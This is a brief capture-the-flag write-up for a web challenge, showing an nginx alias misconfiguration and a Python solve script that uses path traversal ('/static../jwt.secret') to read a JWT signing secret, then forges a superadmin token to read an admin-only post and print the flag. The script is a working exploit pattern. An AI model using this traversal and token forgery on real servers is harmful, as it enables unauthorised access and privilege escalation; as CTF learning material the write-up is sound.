 ```yaml
---
created: 2024-09-01T17:04
updated: 2024-09-01T17:06
---
```


After the event ended I found out that nginx misconfiguration was the solution.

😭 its nginx agian!

```nginx
location /static {
	alias /app/static/;
}
```

## solve script

```python
import re
import jwt
import requests
s = requests.Session()
t = "https://14ae2eb9-b747-42c1-9694-ee6dc5bf0b39.bugg.cc"
sec = s.get(t+"/static../jwt.secret").text
print(sec)
print(s.post(t+"/register", json={"username": "kumo", "password": "kumo"}))
print(s.post(t+"/login", json={"username": "kumo", "password": "kumo"}))
aT = s.cookies.get_dict()['accesstoken']
data = jwt.decode(aT, sec, algorithms=["HS256"])
data['role'] = 'superadmin'
aT = jwt.encode(data, sec, algorithm="HS256")
s.cookies.set('accesstoken', aT, domain="14ae2eb9-b747-42c1-9694-ee6dc5bf0b39.bugg.cc")
pid = re.search(r"<td>Welcome to the CTF!</td>\s*<td>(.+)</td>", s.get(t+"/admin/dashboard").text).group(1)
print(s.get(t+"/user/posts/"+pid).text)
```

```flag
CSCTF{0a97afb3-64be-4d96-aa52-86a91a2a3c52}
```

